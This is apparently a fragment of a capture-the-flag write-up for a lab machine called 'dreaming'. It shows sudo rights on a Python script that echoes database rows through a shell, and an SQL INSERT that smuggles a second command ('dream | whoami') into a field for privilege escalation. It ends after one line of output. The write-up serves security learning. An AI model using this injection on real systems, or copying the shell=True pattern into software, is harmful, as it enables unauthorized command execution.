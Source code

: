 ```

```
select * from dreams;
+---------+------------------------------------+
| dreamer | dream                              |
+---------+------------------------------------+
| Alice   | Flying in the sky                  |
| Bob     | Exploring ancient ruins            |
| Carol   | Becoming a successful entrepreneur |
| Dave    | Becoming a professional musician   |
+---------+------------------------------------+
```

```
lucien@dreaming:~$ sudo -l  
sudo -l
Matching Defaults entries for lucien on dreaming:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lucien may run the following commands on dreaming:
    (death) NOPASSWD: /usr/bin/python3 /home/death/getDreams.py
```

<hr>

We loop throught the dreams and echo them as a command with python3 subprocess. We can maybe use a dream with a pipe and get a new shell.

```
if not dreams_info:
    print("No dreams found in the database.")
else:
    # Loop through the results and echo the information using subprocess
    for dream_info in dreams_info:
        dreamer, dream = dream_info
        command = f"echo {dreamer} + {dream}"
        shell = subprocess.check_output(command, text=True, shell=True)
        print(shell)

```


```
mysql> INSERT INTO dreams (dreamer,dream) values ("test","dream | whoami");
INSERT INTO dreams (dreamer,dream) values ("test","dream | whoami");
Query OK, 1 row affected (0.01 sec)
```

```
sudo -u death /usr/bin/python3 /home/death/getDreams.py
Alice + Flying in the sky
